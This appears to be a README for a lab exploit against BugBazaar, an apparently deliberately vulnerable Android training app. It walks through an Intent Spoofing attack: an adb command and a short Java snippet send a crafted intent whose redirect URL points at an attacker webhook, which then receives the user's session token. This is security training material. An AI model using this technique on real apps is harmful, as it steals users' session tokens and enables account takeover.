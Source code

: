 # Intent Spoofing
This project can be used to exploit Intent Spoofing vulnerability in [BugBazaar](https://github.com/payatu/BugBazaar)

### How to exploit Intent Spoofing?
1. Install BugBazaar application on device
2. Decompile BugBazaar apk via Jadx-gui
3. Goto AndroidManifest.xml file and search for ExternalAuthLogin
4. You can see intent filters set for ExternalAuthLogin class
5. Goto ExternalAuthLogin class and analyse the code. It can be seen that, this class expect a string extra in return for intent value
6. Run following ADB command:
	- adb shell am start -d "bugbazaar://externalAuthentication" --es ExternalAuthLoginActivity.EXTRA_REDIRECT_URL https://webhookurl
7. Add your webhook url here and check the logs of webhook. You can see the _sid_ token.
8. To exploit this vulnerability via other app, create a new android project with empty activity.
9. In MainActivity.java, add following code
	
        // Create a new Intent
        Intent intent = new Intent();

        // Set the action and data URI for the Intent
        intent.setAction(Intent.ACTION_VIEW);
        intent.setData(Uri.parse("bugbazaar://externalAuthentication"));

        // Add extra data to the Intent
        intent.putExtra("ExternalAuthLoginActivity.EXTRA_REDIRECT_URL", "https://webhookurl");

        // Start the activity using the Intent
        startActivity(intent);

10. Replace your webhook url here. 
11. Run this application on same device where BugBazaar is installed.
12. Check the webhook logs and you can see the _sid_ token.	
